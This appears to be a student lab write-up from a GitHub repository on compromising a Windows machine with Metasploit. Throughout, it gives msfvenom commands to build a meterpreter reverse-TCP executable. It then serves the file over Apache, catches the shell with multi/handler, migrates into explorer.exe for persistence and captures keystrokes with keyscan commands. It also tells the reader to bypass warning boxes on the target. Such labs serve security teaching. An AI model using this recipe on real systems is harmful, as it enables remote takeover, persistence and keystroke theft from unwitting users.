 
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:
![1ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/65acd676-3f6b-43e2-ab3d-eab3ac71f52a)
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![2ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/0d71f249-b350-4520-a675-10682f31bfa9)
copy the fun.exe into the apache /var/www/html folder
![3ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/40d67abf-a7a0-49d8-b07a-04602a413067)
Start apache server
sudo systemctl apache2 start
![4ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/1adafd50-4b0a-4eb5-b578-f1e1e395518b)
Check the status of apache2
![5ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/4b381f48-9984-4312-9925-dce70d581bc9)
Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![6ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/725191c5-ca87-46d4-bcc9-80f0306816ee)


set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![7ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/55a40491-a16c-480f-a1bf-8151083fbae5)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![7ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/5bcc5312-2942-4355-8ffd-e99b749e6639)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![8ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/586a7446-0fd9-41b7-b30c-59b64c5220d6)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![9ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/1632816d-0cbd-430b-aaf6-8c4baff3f4fb)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![9ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/fd98d79e-83e6-47be-a2cc-6356656cf3db)

keyscan_dump	Shows the keystrokes captured so far
![10ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/03f16b99-9a26-4b6d-bd63-ab7d3ab02a70)

## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
